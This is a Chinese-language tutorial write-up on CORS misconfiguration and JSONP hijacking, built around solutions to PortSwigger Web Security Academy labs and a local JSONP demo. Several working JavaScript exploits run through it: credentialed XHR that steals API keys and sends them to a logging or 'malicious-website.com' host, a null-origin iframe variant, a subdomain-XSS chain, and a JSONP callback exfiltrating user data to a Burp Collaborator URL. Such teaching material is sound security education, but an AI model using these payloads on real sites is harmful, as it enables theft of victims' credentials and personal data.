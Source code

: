 近期在src挖掘中经常看到大佬们提到cors,josnp一直不太理解此类漏洞。特此学习记录一下，如有错误之处还望师傅们斧正。



## 1.跨域资源共享（cors)

### 跨域资源共享(cors)原理：

在讲cors之前我们先来了解一下同源策略（sop）。

##### 1.1 同源策略

**浏览器的安全基石是同源策略。同源策略保证了同一个浏览器打开不同网站，不同网站之间不会相互影响。**

列如：张三登陆了某银行网站，浏览器存储了他的cookie。而这时他又打开了另一个小网站，该小网站会记录用户的cookie。如果没有同源策略，他就会记录浏览器存储的cookie，此时银行网站的cookie也被记录，从而造成银行用户cookie泄露。



同源策略中的同源是指：

三个同源：**同协议，同域名，同端口** ，例如：

```
https:www.test.com 和 http:www.test.com (不同源，协议不同)
http:www.test.com  和 http:login.test.com (不同源，域名不同)
http:www.test.com:80 和 http:www.test.com:8080 (不同源，端口不同)
```



##### 1.2 同源策略(sop)的**窗口**跨域资源共享(cors)

但是安全和方便总是难两全。张三新开发了一个网站A，要从网站B上获取数据，但是因为同源策略的存在他获取不了B网站上的数据。此时他通过搜索发现一个叫做跨域资源共享的东西经过一通配置，他成功获取到了B网站的数据：

他的配置如下：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

这个配置在满足要求的同时也造成了严重的安全问题，**Access-Control-Allow-Origin: * ** 通配符*允许A网站访问的同时也允许了其他任意网站的访问。假设一个攻击过程：

网站C的cors配置存在缺陷，被一个黑客发现，该黑客通过友链申请，给站长发送了一个网站链接，站长为了确认友链网站，打开了网站链接，而该网站中部署了黑客精心构造的恶意脚本，能够自动获取存储网站C中的cookie信息，此时黑客就获取到了站长的cookie信息...



**配置讲解：**

**Access-Control-Allow-Origin：*** 
web浏览器将Access-Control-Allow-Origin与请求网站的来源进行比较，如果匹配则允许访问响应



例如：Access-Control-Allow-Origin：http://www.test.com

此时网站login.test.com（小A)向www.test.com(小B）发起 请求，小B一看请求源（origin）和自己的配置不一样，知道小A可能是个坏蛋，照例将请求返回给小A，但是响应中不含有Access-Control-Allow-Origin标头，万能的浏览器一看跨域请求，响应中还没有Access-Control-Allow-Origin字段，立马报错。坏蛋小A就获取不到小B的数据了...

更多详细讲解可参考阮老师文章：https://www.ruanyifeng.com/blog/2016/04/cors.html



**Access-Control-Allow-Credentials: true** 
该字段可选。它的值是一个布尔值，表示是否允许发送Cookie。默认情况下，Cookie不包括在CORS请求之中。

设为`true`，即表示服务器明确许可，Cookie可以包含在请求中，一起发给服务器。这个值也只能设为`true`，如果服务器不要浏览器发送Cookie，删除该字段即可。



**通过前面的介绍我们对cors也知名知意了，这时问题就出现了，这漏洞该怎么挖呢？**

这时就要了解一下burpsuite网站的实验室，该实验室中存在多中漏洞实验，在学习漏洞知识的同时也能实战学习漏洞利用技巧，接下来就简单记录一下实验过程。

实验链接：https://portswigger.net/web-security/cors

#### 实战练习：

##### 1.1 来源（origin)可任意更改的cors漏洞

![1.1.1](1.1.1.png)

该实验个人账户界面存在账户的api密钥，我们的目标就是获取到用户的api密钥



![1.1.2](1.1.2.png)

通过观察网站源码，发现api密码是通过一个ajax接口返回到页面的。**直接访问接口，并将请求来源跟改为任意网站可以获取到密钥，说明存在cors漏洞**

![1.1.3](1.1.3.png)



此时我们有一个攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可在web日志中获取到小王的api密钥

恶意脚本：

```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
// 打开api密钥链接
   req.open('get','https://ac0c1f2b1efc321180e1a18c007100d3.web-security-academy.net/accountDetails',true);
// 设置为true可以保证，请求的时候携带cookie
   req.withCredentials = true;
   req.send();

//将访问api密钥得到的数据，拼接到url中访问自己服务，即可在服务器web日志中找到api密钥信息
   function reqListener() {
    location='/log?key='+this.responseText;
   };
</script>
```

获取到的密钥：

![1.1.4](1.1.4.png)



##### 1.2 来源（origin) 可为null的cors漏洞

在某些应用程序中可能会将null列入白名单，以支持本地应用程序的开发。

origin标头不可以设置为任意标头了，尝试设置为null，此时可以获取到数据，说明存在请求来源可为null的cors漏洞

![1.2.1](1.2.1.png)

本地html测试：

测试exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

console.log(this.responseText);
</script>"></iframe>
```

![1.2.1](1.2.2.png)

此时我们继续采用实验一的攻击思路：

部署一个恶意脚本到我们的网站上，并将该网址链接发送给要攻击的小王，小王只要访问了我们的链接，我们即可获取到小王的api密钥

编写exp:

```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://ac8d1f4c1ebc2af2806b9d9d00df0041.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    //恶意网站
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```



##### 1.3 利用信任子域的xss获取主域的敏感信息

有些服务器的配置为：

```javascript
Access-Control-Allow-Origin: http://*.test.com
```

这个配置乍一看没问题，信任自己的子域不是很正常吗，但是子域成百上千的大网站中，子域就特别容易出问题，找个xss既有可能严重威胁到主站。而且该配置也不符合最小信任原则，通配符*不能随便用，应该设置为固定值。例如：*

`Access-Control-Allow-Origin: http://login.test.com` 此时只要保证login.test.com没问题即可确保主站不会遭受cors攻击

在该实验三中将来源（origin)设置为任意子域，如：

![1.3.1](1.3.1.png)

设置为不存在的example子域，依旧可以访问敏感数据



正好该网站的检查库存会将单价信息返回到子域，并且productId参数存在xss漏洞

![1.3.2](1.3.2.png)



所以想到一个利用链：

```
子域触发xss--->访问主域敏感信息--->将敏感信息保存到任意网站
```



exp:

```javascript
<script>
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```



exp解释：

```javascript
<script>
//子域触发xss，xss访问主域敏感信息
   document.location="http://stock.ac671f961e9e127a8052d5200051006e.web-security-academy.net/
   ?productId=4
   //采用原生js http请求将获取到的内容，保存到主机
   <script>var req = new XMLHttpRequest(); 
   req.onload = reqListener; 
   //访问敏感信息
   req.open('get','https://ac671f961e9e127a8052d5200051006e.web-security-academy.net/accountDetails',true); 
   req.withCredentials = true;
   req.send();
function reqListener() {
       //携带敏感信息，get请求访问主机，主机log日志即可出现用户apikey
   location='https://ac021ff51e53121f804ed5d3013300da.web-security-academy.net/log?key='%2bthis.responseText; };
   %3c/script>
   &storeId=1"
</script>
```



**跨域除了cors外还有一种非官方的方法jsonp，jsonp 是 JSON with padding（填充式 JSON 或参数式 JSON）的简写。**

jsonp通过动态创建<script>标签，然后利用<script>的src属性不受同源策略的约束来获取跨域数据。

jsonp在造成方便的同时也造成了一定的安全的问题。jsonp劫持最早在08年提出，早期各大厂商并不重视此类漏洞，但在个人信息保护严密的现在，jsonp劫持带来的信息泄露问题，促使各大src厂商开始重视jsonp劫持漏洞。以下简要分析jsonp劫持原理，很多不足之处，还望大佬们斧正。

## 2.jsonp劫持

### 2.1 漏洞场景模拟：

某司因为业务需求，需要网站B从网站A中获取json数据，所以他们在A中实现了一个jsonp接口

![2.1.1](2.1.1.png)

接口代码如下：

```php

<?php
header('Content-type: application/json');
//获取回调函数名
$jsonpCallback = htmlspecialchars($_REQUEST ['jsonp']);
//json数据
$json_data = '["张三","12011012110","男","浙江杭州"]';
//输出jsonp格式的数据
echo $jsonpCallback . "(" . $json_data . ")";
?>
```

网站B代码如下：

```html

<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<title>JSONP 实例</title>
</head>
<body>
<div id="divCustomers"></div>
<script type="text/javascript">
function callback(result, methodName)
{
    var html = '<ul>';
    for(var i = 0; i < result.length; i++)
    {
        html += '<li>' + result[i] + '</li>';
    }
    html += '</ul>';
    document.getElementById('divCustomers').innerHTML = html;
}
</script>
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
</body>
</html>
```

效果如下：

![2.1.2](2.1.2.png)

此时通过jsonp接口，实现了跨域传输。然而该跨域传输过程存在很大的安全安全问题，因为对json参数调用者没有任何限制

### 2.2 漏洞利用流程：

这里使用burp的collaborator client功能来接收http记录，主要是为了实验，也演示一下collaborator client的强大功能 ，在实际利用中可以直接向本地127.0.01发送请求，在web日志记录中查看即可

2.2.1 打开collaborator client获取请求链接

![2.1.3](2.1.3.png)

![2.1.4](2.1.4.png)



2.2.2 复制链接填入脚本，点击Poll now开始循环监听http请求。

```javascript
<h1>jsonp exp</h1>

<script type="text/javascript">
  function callback(result)
{
   var req = new XMLHttpRequest();

    //向burp的collaborator client发送请求，并携带获取到json数据
   req.open('get','https://r2u9atjp588pt96t5cpef5o40v6lua.burpcollaborator.net/?userinfo='+result,true);
   req.withCredentials = true;
   req.send();
}
</script>
//jsonp接口
<script type="text/javascript" src="http://127.0.0.1/jsonp.php?jsonp=callback"></script>
```

2.2.3 将脚本部署到恶意网站，并将网站链接发送给受害者，受害者访问链接，即可在collaborator client中获取到用户的json数据。



![2.1.5](2.1.5.png)



### 2.3  jsonp挖掘思路

知道了应用场景，也知道利用流程，此时就应该思考怎么利用jsonp漏洞了



工具挖掘可以使用xray，xray自带有jsonp漏洞检测功能，监听端口，被动扫描就完事

手工挖掘也有一些小技巧，大佬总结的jsonp接口常用参数：

```
cb
callback
jsoncb
jsonpcb
jsonp
jQuery
jsoncallback
jsonpcallback
jsoncall
jsonpcall
```

访问网站首页

![2.1.6](2.1.6.png)

1. 打开network

2. 勾选Preserver log

3. 在搜索框中搜索常用jsonp参数

   

搜索到带有相关参数的链接，即可使用exp验证是否存在jsonp泄露。

验证poc:

```html

<!DOCTYPE html>
<html>
<head>
 <title>jsonp劫持验证示例</title>
 <meta charset="utf-8">
    <style type="text/css">
        table{
            display:inline
        }
</style>
</head>
<body>
<script src='https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js'></script>
<script type="text/javascript">
function callback(json){
    console.log(json);
}
var s=document.createElement('script');
s.type="text/javascript";
    //漏洞可能存在点
s.src='http://127.0.0.1/jsonp.php?jsonp=callback';
document.body.appendChild(s);
</script>
</body>
</html>
```

![2.1.7](2.1.7.png)

console.log获取到数据，说明存在该漏洞



参考链接：

https://blog.knownsec.com/2015/03/jsonp_security_technic/

https://mp.weixin.qq.com/s/SuEpF3RIZIv2CcIUok8SoQ

[https://www.k0rz3n.com/2018/06/05/%E7%94%B1%E6%B5%85%E5%85%A5%E6%B7%B1%E7%90%86%E8%A7%A3JSONP%E5%B9%B6%E6%8B%93%E5%B1%95/](https://www.k0rz3n.com/2018/06/05/由浅入深理解JSONP并拓展/)